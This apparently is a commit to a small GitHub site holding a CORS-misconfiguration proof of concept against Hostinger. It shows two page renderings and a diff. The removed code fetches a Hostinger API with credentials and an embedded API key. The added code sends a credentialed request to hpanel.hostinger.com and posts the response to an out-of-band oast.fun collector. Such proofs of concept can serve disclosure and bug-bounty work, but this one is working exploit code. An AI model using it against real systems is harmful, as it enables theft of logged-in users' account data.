

Before and after one commit to hackaleon/cors-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,24 +1,33 @@
 <!DOCTYPE html>
 <html>
-<head>
-  <title>CORS Misconfig PoC</title>
-</head>
-<body>
-  <h1>CORS Exploit PoC</h1>
-  <script>
-    fetch("https://experiment-api.hostinger.com/sdk/v2/vardata?v=0", {
-      method: "GET",
-      credentials: "include",
-      headers: {
-        "Authorization": "Api-Key client-cW5zRM9wiB0Wa9KqimmHzMcWGBXkKSK6"
+  <body>
+    <h3>Hostinger CORS Exploit PoC</h3>
+    <button onclick="exploit()">Run Exploit</button>
+    <pre id="output"></pre>
+
+    <script>
+      function exploit() {
+        const xhttp = new XMLHttpRequest();
+
+        xhttp.onreadystatechange = function () {
+          if (this.readyState === 4) {
+            // Display the response
+            document.getElementById("output").innerText = this.responseText;
+
+            // Exfiltrate the data to your OAST domain
+            const exfil = new XMLHttpRequest();
+            exfil.open("POST", "http://c0s9990o3dsqhber0th8y7ks6cum7aj.oast.fun", true);
+            exfil.setRequestHeader("Content-Type", "application/json");
+            exfil.send(JSON.stringify({ data: this.responseText }));
+          }
+        };
+
+        // Target the vulnerable CORS endpoint
+        xhttp.open("POST", "https://hpanel.hostinger.com/api/message-hub/api/v1/chat/init", true);
+        xhttp.withCredentials = true;
+        xhttp.setRequestHeader("X-Custom-Header", "exploit");
+        xhttp.send(); // Can send a body if needed
       }
-    })
-    .then(response => response.json())
-    .then(data => {
-      console.log("Sensitive Data:", data);
-      document.body.innerHTML += "<pre>" + JSON.stringify(data, null, 2) + "</pre>";
-    })
-    .catch(err => console.error("Fetch error", err));
-  </script>
-</body>
+    </script>
+  </body>
 </html>
```
